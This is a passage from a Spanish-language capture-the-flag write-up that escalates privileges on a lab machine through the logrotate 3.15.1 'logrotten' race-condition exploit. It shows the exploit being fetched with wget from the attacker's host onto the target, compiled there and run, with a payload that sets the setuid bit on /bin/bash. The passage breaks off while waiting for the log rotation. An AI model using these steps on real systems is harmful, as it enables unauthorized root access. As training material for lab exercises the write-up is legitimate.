![Logrotate]({{ 'assets/img/writeups/Book/logrotate.png' | relative_url }}){: .center-image }

> ¿Qué es logrotate?  
> Utilidad de sistemas linux que administra la comprensión y rotación de archivos logs.

Busco información por el internet sobre logrotate;`logrotate exploit`, encuentro esta página:  
https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html  

Le doy a "Download" y me copio la url:
```
❯ wget https://dl.packetstormsecurity.net/1910-exploits/logrotate3151-escalate.txt

--2023-06-13 17:31:50--  https://dl.packetstormsecurity.net/1910-exploits/logrotate3151-escalate.txt
Resolviendo dl.packetstormsecurity.net (dl.packetstormsecurity.net)... 198.84.60.200
Conectando con dl.packetstormsecurity.net (dl.packetstormsecurity.net)[198.84.60.200]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
```
Ojeo el archivo y parece que se trata de un archivo compilado, en las instrucciones te sale que hay que compilarlo. Lo compilare en la máquina víctima que tiene **gcc**.

Así es como habría que ejecutarlo:  
`./logrotten -p ./payloadfile /tmp/log/pwnme.log`

El archivo **payloadfile** será un archivo en el que pondré el código que quiera, por ejemplo:
```bash
#!/bin/bash

chmod u+s /bin/bash
```
La segunda parte de ese comando, la ruta del log, debe ser lo que tenemos en nuestro /home/backups.

Bien, voy a quitar las primeras lineas el txt(son los comentarios y explicaciones de uso) y paso el archivo a la máquina objetivo.
```
reader@book:/dev/shm$ wget http://10.10.14.13/logrotate3151-escalate.txt
--2023-06-13 15:46:56--  http://10.10.14.13/logrotate3151-escalate.txt
Connecting to 10.10.14.13:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5386 (5.3K) [text/plain]

reader@book:/dev/shm$ ls
logrotate3151-escalate.txt  payloadfile  pspy64
reader@book:/dev/shm$ mv logrotate3151-escalate.txt logrotten.c
reader@book:/dev/shm$ gcc logrotten.c -o logrotten
reader@book:/dev/shm$ ls -l /home/reader/backups/
total 4
-rw-r--r-- 1 reader reader  0 Jan 29  2020 access.log
-rw-r--r-- 1 reader reader 91 Jan 29  2020 access.log.1
reader@book:/dev/shm$ ./logrotten -p ./payloadfile /home/reader/backups/access.log 
Waiting for rotating /home/reader/backups/access.log...
``` 
Está esperando algo..Aquí el punto es meter algo en ese access.log, tendrás que conectarte por ssh con otra consola:
```
❯ ssh -i id_rsa reader@10.10.10.176
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 13 16:07:01 UTC 2023


Last login: Tue Jun 13 15:54:25 2023 from 10.10.14.13
```